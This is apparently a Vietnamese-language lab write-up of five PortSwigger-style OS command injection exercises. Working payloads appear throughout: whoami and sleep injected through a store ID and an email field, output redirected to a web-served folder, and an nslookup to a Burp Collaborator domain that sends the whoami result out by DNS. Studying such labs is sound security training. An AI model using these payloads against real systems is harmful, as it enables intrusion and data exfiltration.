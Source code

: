 # Lab 1: OS command injection, simple case

>  This lab contains an OS command injection vulnerability in the product stock checker.
> The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

> To solve the lab, execute the whoami command to determine the name of the current user. 

> OS command injection là lỗ hổng giúp ta thực thi được câu lệnh bên trong web nguy hiểm nó có thể tương tác với kernel của hệ điều hành

![347152750-eb45c925-299f-4b69-831b-8b86bb92acdd](https://github.com/user-attachments/assets/63a2bb20-64da-4acd-a616-7d59a2047f49)



+ step 1 : Recon

  - với bài này này sau khi check ta thấy có chức năng "check stock" có sử dụng có 1 list mà nghĩ có thể đó là định dạng json nên ta sẽ check

![347153234-27457b86-1b12-4ea8-8ab0-9ea84855225a](https://github.com/user-attachments/assets/d63ac8c0-9e42-4429-9df6-1a643c26b84a)


  - sử dụng brupsuite để phân tích chức năng đó

![347153450-aef4e0a1-6e2e-45bf-83f2-f3f17b485b39](https://github.com/user-attachments/assets/a8b355b3-1e23-4927-b0fa-e5b0a489b1ea)


=> nó đang có 2 parameter ở body vì là lỗ hổng OS command injection nên ta sẽ khai thác thông tin này bằng cách check quote ;ls vào productid và storeid 

+ step 2: Exploit

  - payload:

    ```
      storeid=?;whoami or |whoami 
    ```

![347327930-71de2e61-b215-4d38-b150-d9957d29a136](https://github.com/user-attachments/assets/5d22c798-0bb1-4f7e-927d-b3fcff39b650)


+ trong product id tượng trưng cho primary key không đổi của database server nên không chèn được còn store id là value thì chèn được

+ tổng hợp các operator được dùng trong OS command injection

  ```
    &: Chạy lệnh trong nền.
    &&: Chạy lệnh thứ hai nếu lệnh thứ nhất thành công.
    |: Chuyển đầu ra của lệnh bên trái thành đầu vào của lệnh bên phải.
    ||: Chạy lệnh thứ hai nếu lệnh thứ nhất thất bại.
    ;: Chạy các lệnh tuần tự, không quan tâm thành công hay thất bại.

  ```

=> solve lab 1 

# Lab 2: Blind OS command injection with time delays

>  This lab contains a blind OS command injection vulnerability in the feedback function.

> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

> To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

![348474218-69e7540e-9f07-47ba-8303-46bfc0039b0d](https://github.com/user-attachments/assets/5d9d4b12-8ef9-4dfd-8d81-9a8c69af303a)

+ step 1 : Recon

  - trang web có chức năng submit feedback và trong đó trường email đang xuất hiện lỗ hổng khi test ; => could not save
 
  - để gây ra delay cho command ta sẽ sử dụng : sleep hoặc là ping -c
 
+ step 2 : Exploit

  - payload:

  ```
  email=x & sleep 10 #

  or 

  email=x & ping -c 10 127.0.0.1 # 
  ```

- & là sử dụng trong khi thỏa mãn cả 2 trường hợp

- comment chức năng đằng sau

![348474937-e93f306b-edc9-4536-bc12-c8fcb2d446e2](https://github.com/user-attachments/assets/31be9d12-0c20-4945-9682-b46e0ea19237)

=> solve lab 2

# Lab 3: Blind OS command injection with output redirection

>  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
/var/www/images/

> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

> To solve the lab, execute the whoami command and retrieve the output. 

![348477030-2a8986de-1bdc-4b2c-850c-0f706948a2fa](https://github.com/user-attachments/assets/50f56f4e-253f-4d8a-99ee-94eda630d8a8)


+ step 1: Recon

  - trong bài này ta sẽ test chức năng chứa thông tin của lỗ hổng và nó đang nằm ở trường email => test sleep để check phản hồi
 
  - ta còn nhận được thông tin về filename image ta có thể chạy output thông qua vị trí /var/www/images
 
+ step 2 : Exploit

  - xây dụng payload trên  trường email => ghi câu lệnh vào folder root images
 
    payload:

        email = x & ls > /var/www/images/output.txt #

        or

        email = x || ping 127.0.0.1 > /var/www/images/output.txt ||

![348477271-6d508a4b-1387-4ffd-9252-5ff92993f140](https://github.com/user-attachments/assets/4b8cdfe9-2c75-4c36-878d-f884ef6a361e)

=> sau khi ghi command lưu vào root directory thì ta sẽ chạy filename=<file> để hiển thị output


=> solve lab 3

# Lab 4: Blind OS command injection with out-of-band interaction

>  This lab contains a blind OS command injection vulnerability in the feedback function.

> The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

![348520749-e63205d0-2490-4f34-b8cb-d13c2ee727f6](https://github.com/user-attachments/assets/c0626b27-0a42-4c4c-b199-1fb745ca86e0)


+ step 1: Recon

  - lỗ hổng vẫn là trong trường email => trong trường hợp này ta không thể sử dụng command để execute cho email được
 
  - ta cần check thử trường dns xem có bị leak từ các gói tin không
 
+ step 2: Exploit

  - payload:
 
    + sử dụng brup collaborator domain để fetch dns http header về
   
    ```
        & nslookup me4bngatc9k527z04pnqpdq51w7nvej3.oastify.com #
    ```

![348520829-80f57973-c6d6-4866-afdd-c4f0cb80e439](https://github.com/user-attachments/assets/052609e0-25ae-4480-be5f-1f600758a6c3)

=> ta có thể thấy nó poll được DNS với giá trị IP 

=> solve Lab 4

# Lab 5: Blind OS command injection with out-of-band data exfiltration

>  This lab contains a blind OS command injection vulnerability in the feedback function.

> The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

> To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

![348521202-d5d77424-0e38-49bc-b616-c6430a9faeb4](https://github.com/user-attachments/assets/d04c1858-6dc6-4637-a9ca-d31d0b232b5e)


+ step 1: Recon

  - trong bài này ta sẽ confirm email bị lỗ hổng bằng cách dùng
 
    & nslookup <brupcolab.domain> #


=> sau khi confirm ta sẽ test thêm command cho dns brup collab bằng whoami 

+ step 2 : Exploit

  - payload:

   ```

   & nslookup `whoami`.2uxr3wq9sp0linfgk5365t6lhcn3bvzk.oastify.com #

    or

   & nslookup $(whoami).2uxr3wq9sp0linfgk5365t6lhcn3bvzk.oastify.com #
   ```

=> ta sẽ truyền vào command vào domain brup để khi trả về dns đồng thời sẽ trả về output của câu lệnh 

![348521316-733a7f70-59e1-42b2-8c76-372355f481ec](https://github.com/user-attachments/assets/d3a52ee8-f81d-4215-b166-de9c669506df)

=> solve lab 5
